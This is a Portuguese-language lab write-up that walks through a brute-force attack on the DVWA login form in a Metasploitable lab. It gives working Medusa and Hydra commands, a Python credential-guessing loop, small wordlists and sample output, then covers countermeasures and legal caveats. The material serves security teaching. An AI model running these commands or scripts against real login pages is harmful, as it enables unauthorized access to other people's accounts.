

# 🌐 Etapa 3.2: Ataque a Formulários Web - DVWA

## 📋 Objetivo

Esta etapa demonstra como realizar ataques de força bruta contra formulários de login em aplicações web, utilizando o DVWA (Damn Vulnerable Web Application) como alvo e analisando as requisições HTTP para construir ataques automatizados.

---

## 🎯 Pré-requisitos

### ✅ Verificações Necessárias

- [ ] Metasploitable com DVWA acessível
- [ ] Conectividade confirmada com a máquina alvo
- [ ] Navegador web disponível no Kali Linux
- [ ] Ferramentas de desenvolvedor habilitadas

### 🔍 Verificação de Acesso ao DVWA

```bash
# Teste de conectividade HTTP
curl -I http://192.168.56.101/dvwa/

# Resultado esperado: HTTP 200 OK
```

---

## 🔍 Passo 1: Análise do Formulário de Login

### 🌐 Acesso à Aplicação

```bash
# URL de acesso
http://192.168.56.101/dvwa/login.php
```

### 🎯 O que é o DVWA?

- **DVWA** (Damn Vulnerable Web Application): Aplicação web intencionalmente vulnerável
- **Propósito educacional**: Ensinar segurança web através de vulnerabilidades práticas
- **Múltiplos níveis**: Low, Medium, High, Impossible
- **Diversos ataques**: SQL Injection, XSS, CSRF, Brute Force, etc.

### 🛠️ Inspeção Técnica do Formulário

#### 1. Abertura das Ferramentas de Desenvolvimento

```bash
# No navegador (Firefox/Chromium no Kali)
Tecla: F12
Ou: Botão direito > Inspecionar elemento
```

#### 2. Monitoramento de Requisições de Rede

```bash
# Aba Network/Rede nas Developer Tools
1. Abrir aba "Network"
2. Limpar requisições anteriores (botão 🗑️)
3. Manter aba aberta durante o teste
```

#### 3. Teste de Login Falso

```bash
# Credenciais de teste (inválidas)
Usuário: test123
Senha: fake456
Login: Login
```

### 📊 Análise da Requisição HTTP

#### Dados Capturados

| Campo            | Valor                               | Descrição               |
| ---------------- | ----------------------------------- | ----------------------- |
| **Método**       | POST                                | Tipo de requisição HTTP |
| **URL**          | `/dvwa/login.php`                   | Endpoint do formulário  |
| **Content-Type** | `application/x-www-form-urlencoded` | Formato dos dados       |

#### Parâmetros do Formulário

```http
POST /dvwa/login.php HTTP/1.1
Host: 192.168.56.101
Content-Type: application/x-www-form-urlencoded

username=test123&password=fake456&Login=Login
```

#### Resposta de Falha

```html
<!-- Mensagem de erro identificada -->
<div class="message">Login failed</div>
```

### 🔍 Estrutura da Requisição Analisada

```bash
# Elementos identificados para automação
URL Alvo: http://192.168.56.101/dvwa/login.php
Método: POST
Parâmetros:
  - username: [valor do usuário]
  - password: [valor da senha]
  - Login: "Login" (botão submit)
Indicador de Falha: "Login failed"
```

---

## 📝 Passo 2: Preparação das Wordlists

### 👥 Criação da Lista de Usuários

```bash
echo -e 'user\nmsfadmin\nadmin\nroot' > users.txt
```

#### 🔍 Análise Estratégica dos Usuários

| Usuário      | Categoria       | Probabilidade | Justificativa                 |
| ------------ | --------------- | ------------- | ----------------------------- |
| **user**     | Genérico        | Alta          | Nome comum em sistemas        |
| **msfadmin** | Target-specific | Muito Alta    | Usuário padrão Metasploitable |
| **admin**    | Administrativo  | Alta          | Conta administrativa padrão   |
| **root**     | Sistema         | Média         | Superusuário Unix/Linux       |

### 🔐 Criação da Lista de Senhas

```bash
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

#### 🔍 Análise Estratégica das Senhas

| Senha        | Categoria       | Rank Global | Justificativa                 |
| ------------ | --------------- | ----------- | ----------------------------- |
| **123456**   | Sequencial      | #1          | Senha mais usada mundialmente |
| **password** | Genérica        | #2          | Segunda mais comum            |
| **qwerty**   | Teclado         | #7          | Padrão de teclado             |
| **msfadmin** | Target-specific | N/A         | Senha padrão do alvo          |

### 📊 Estatísticas de Efetividade

- **Combinação total**: 4 usuários × 4 senhas = 16 tentativas
- **Tempo estimado**: 1-3 minutos (dependendo da configuração)

---

## ⚔️ Passo 3: Execução do Ataque Automatizado

### 🛠️ Comando Medusa para HTTP Forms

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
  -m PAGE:'/dvwa/login.php' \
  -m FORM:'username=^USER^&password=^PASS^&Login=Login' \
  -m FAIL:'Login failed' \
  -t 6
```

### 🔧 Análise Detalhada dos Parâmetros

#### Parâmetros Básicos

| Parâmetro | Valor          | Descrição           |
| --------- | -------------- | ------------------- |
| **-h**    | 192.168.56.101 | Host/IP alvo        |
| **-U**    | users.txt      | Arquivo de usuários |
| **-P**    | pass.txt       | Arquivo de senhas   |
| **-M**    | http           | Módulo HTTP         |
| **-t**    | 6              | Threads simultâneas |

#### Parâmetros Específicos HTTP (-m)

| Parâmetro | Valor                                         | Explicação                       |
| --------- | --------------------------------------------- | -------------------------------- |
| **PAGE**  | '/dvwa/login.php'                             | Página de destino da requisição  |
| **FORM**  | 'username=^USER^&password=^PASS^&Login=Login' | Estrutura do formulário          |
| **FAIL**  | 'Login failed'                                | String que indica falha de login |

### 🎯 Variáveis Dinâmicas

- **^USER^**: Substituído pelos valores de users.txt
- **^PASS^**: Substituído pelos valores de pass.txt

### ⚡ Como Funciona o Ataque



---

## 🏆 Passo 4: Interpretação dos Resultados

### ✅ Cenário de Sucesso

```bash
ACCOUNT FOUND: [http] Host: 192.168.56.101 User: admin Password: password [SUCCESS]
```

### 📊 Informações da Credencial Válida

| Campo          | Valor        | Observação           |
| -------------- | ------------ | -------------------- |
| **Usuário**    | admin        | Conta administrativa |
| **Senha**      | password     | Senha fraca padrão   |
| **Tempo**      | ~30 segundos | Tempo até descoberta |
| **Tentativas** | ~8/16        | Posição na lista     |

### ❌ Cenários de Falha

```bash
# Nenhuma credencial encontrada
ACCOUNT CHECK: [http] Host: 192.168.56.101 (1 of 1) User: root Password: msfadmin [FAILED]

# Problemas de conectividade
ERROR: connect (Connection refused)

# Aplicação indisponível
ERROR: HTTP/1.1 404 Not Found
```

---

## 🧪 Passo 5: Validação Manual do Acesso

### 🌐 Teste de Login Manual

```bash
# Acesso via navegador
URL: http://192.168.56.101/dvwa/login.php
Usuário: [credencial descoberta]
Senha: [senha descoberta]
```

### ✅ Confirmação de Acesso Bem-sucedido

```bash
# Indicadores de sucesso
1. Redirecionamento para dashboard
2. Ausência da mensagem "Login failed"
3. Interface administrativa visível
4. Menu de vulnerabilidades disponível
```

### 📋 Exemplo de Sessão Válida

```http
# Requisição de login bem-sucedida
POST /dvwa/login.php HTTP/1.1
Host: 192.168.56.101
Content-Type: application/x-www-form-urlencoded

username=admin&password=password&Login=Login

# Resposta (redirecionamento)
HTTP/1.1 302 Found
Location: /dvwa/index.php
Set-Cookie: PHPSESSID=abc123; path=/
```

---

## 🛡️ Contramedidas e Defesas

### 🔒 Medidas de Segurança Preventivas

#### 1. Autenticação Multifator (MFA)

```bash
# Implementações recomendadas
- Google Authenticator (TOTP)
- SMS de verificação
- Tokens de hardware (YubiKey)
- Biometria
```

#### 2. Proteção CSRF

```php
// Exemplo de token CSRF
<input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">
```

#### 3. Rate Limiting e Throttling

```bash
# Configurações recomendadas
- 3 tentativas por IP por minuto
- Bloqueio progressivo (1min, 5min, 15min)
- Whitelist de IPs administrativos
- Monitoramento de padrões anômalos
```

#### 4. CAPTCHA

```html
<!-- Google reCAPTCHA v3 -->
<div class="g-recaptcha" data-sitekey="your-site-key"></div>
```

### 🚨 Monitoramento e Detecção

#### Logs de Segurança

```bash
# Eventos a monitorar
- Múltiplas tentativas de login
- Logins de IPs desconhecidos
- Padrões de requisições automatizadas
- User-Agents suspeitos
```

#### Alertas Automatizados

```bash
# Configurações SIEM
- > 5 falhas de login/min por IP
- > 50 falhas de login/hora global
- Tentativas fora do horário comercial
- Geolocalização anômala
```

### 📊 Implementação de Contramedidas

| Medida            | Eficácia   | Complexidade | Custo    |
| ----------------- | ---------- | ------------ | -------- |
| **Senha forte**   | Alta       | Baixa        | Gratuito |
| **Rate limiting** | Alta       | Média        | Baixo    |
| **MFA**           | Muito Alta | Média        | Médio    |
| **CAPTCHA**       | Média      | Baixa        | Gratuito |
| **WAF**           | Alta       | Alta         | Alto     |

---

## 🔍 Técnicas Avançadas de Ataque

### 🛠️ Ferramentas Alternativas

#### Hydra (Alternativa Popular)

```bash
hydra -L users.txt -P pass.txt 192.168.56.101 http-post-form \
  "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
```

#### Burp Suite (Profissional)

```bash
# Configuração do Burp Intruder
1. Interceptar requisição de login
2. Enviar para Intruder
3. Configurar posições de payload
4. Carregar wordlists
5. Executar ataque
```

#### Custom Python Script

```python
import requests
import itertools

users = ['admin', 'user', 'msfadmin', 'root']
passwords = ['password', '123456', 'qwerty', 'msfadmin']

for user, pwd in itertools.product(users, passwords):
    data = {'username': user, 'password': pwd, 'Login': 'Login'}
    r = requests.post('http://192.168.56.101/dvwa/login.php', data=data)
    if 'Login failed' not in r.text:
        print(f"[SUCCESS] {user}:{pwd}")
        break
```

### ⚡ Otimizações de Performance

```bash
# Medusa com configurações otimizadas
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
  -m PAGE:'/dvwa/login.php' \
  -m FORM:'username=^USER^&password=^PASS^&Login=Login' \
  -m FAIL:'Login failed' \
  -t 10 \        # Mais threads
  -T 3 \         # Timeout menor
  -v 4           # Verbose para debugging
```

---

## 📚 Análise de Vulnerabilidades Web

### 🎯 Classificação OWASP

- **A07:2021 - Identification and Authentication Failures**
- Falha na implementação de controles de autenticação
- Permite ataques de força bruta automatizados
- Ausência de proteções adequadas

### 🔍 Vetores de Ataque Relacionados

1. **Credential Stuffing**: Uso de credenciais vazadas
2. **Password Spraying**: Senhas comuns contra muitos usuários
3. **Dictionary Attacks**: Wordlists específicas
4. **Hybrid Attacks**: Combinação de técnicas

### 📊 Impacto do Negócio

| Aspecto               | Impacto | Descrição                          |
| --------------------- | ------- | ---------------------------------- |
| **Confidencialidade** | Alto    | Acesso não autorizado a dados      |
| **Integridade**       | Médio   | Possível alteração de dados        |
| **Disponibilidade**   | Baixo   | Sistema pode permanecer disponível |
| **Reputação**         | Alto    | Danos à imagem da organização      |

---

## ⚠️ Considerações Éticas e Legais

### 🚨 **AVISO CRÍTICO**

> Este ataque deve ser realizado **APENAS** em:
>
> - Ambientes de laboratório controlados
> - Sistemas próprios ou com autorização explícita
> - Programas de bug bounty autorizados
> - Testes de penetração contratados

### 📋 Checklist Legal

- [ ] Autorização por escrito obtida
- [ ] Escopo bem definido e limitado
- [ ] Ambiente isolado da produção
- [ ] Documentação completa dos testes
- [ ] Plano de remediação preparado

### ✅ Boas Práticas Éticas

- **Divulgação responsável** de vulnerabilidades
- **Não causar danos** aos sistemas testados
- **Respeitar limites** de tempo e escopo
- **Proteger informações** descobertas

---

## 📚 Próximos Passos

### 🎯 Com Acesso Obtido ao DVWA

1. **Explorar outras vulnerabilidades**:

   - SQL Injection
   - Cross-Site Scripting (XSS)
   - Cross-Site Request Forgery (CSRF)
   - File Upload vulnerabilities

2. **Escalar privilégios**:

   - Buscar vulnerabilidades de sistema
   - Explorar configurações inadequadas
   - Tentar acesso ao sistema operacional

3. **Documentar descobertas**:
   - Catalogar todas as vulnerabilidades
   - Criar relatório de penetration testing
   - Sugerir correções e melhorias

### 🔄 Se o Ataque Falhar

1. **Wordlists mais extensas**:

   - /usr/share/wordlists/rockyou.txt
   - SecLists password lists
   - Custom wordlists baseadas no alvo

2. **Outras técnicas**:
   - Análise de código-fonte
   - Social engineering
   - Exploração de outras aplicações

---

## 📊 Métricas e Resultados

### ⏱️ Performance Esperada

| Cenário              | Tempo      | Tentativas | Taxa Sucesso |
| -------------------- | ---------- | ---------- | ------------ |
| **Wordlist pequena** | 1-3 min    | 16         | 90%          |
| **Wordlist média**   | 5-15 min   | 100        | 70%          |
| **Wordlist grande**  | 30-120 min | 1000+      | 40%          |

### 📈 Fatores de Sucesso

- **Qualidade das wordlists**: 40%
- **Configuração de segurança do alvo**: 35%
- **Timing e threads**: 15%
- **Precisão dos parâmetros**: 10%

---

## 🔧 Troubleshooting

### ❌ Problemas Comuns

#### 1. Erro de Conexão

```bash
# Problema: ERROR: connect (Connection refused)
# Solução:
curl -I http://192.168.56.101/dvwa/
ping -c 3 192.168.56.101
```

#### 2. Parâmetros Incorretos

```bash
# Problema: Todas as tentativas falham
# Solução: Verificar estrutura do formulário
curl -X POST http://192.168.56.101/dvwa/login.php \
  -d "username=test&password=test&Login=Login" -v
```

#### 3. Rate Limiting

```bash
# Problema: Conexões muito lentas/timeout
# Solução: Reduzir threads e adicionar delay
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
  -m PAGE:'/dvwa/login.php' \
  -m FORM:'username=^USER^&password=^PASS^&Login=Login' \
  -m FAIL:'Login failed' \
  -t 2 -T 10  # 2 threads, timeout 10s
```

---

## 🏁 Conclusão

Esta etapa demonstrou com sucesso:

- ✅ **Análise técnica** de formulários web
- ✅ **Automação de ataques** de força bruta HTTP
- ✅ **Uso profissional** da ferramenta Medusa
- ✅ **Interpretação de resultados** de pentesting
- ✅ **Implementação de contramedidas** defensivas
- ✅ **Considerações éticas** em testes de segurança

### 🎓 Competências Desenvolvidas

- Análise de aplicações web
- Uso de ferramentas de desenvolvedor
- Automação de ataques HTTP
- Interpretação de logs de segurança
- Desenvolvimento de estratégias defensivas

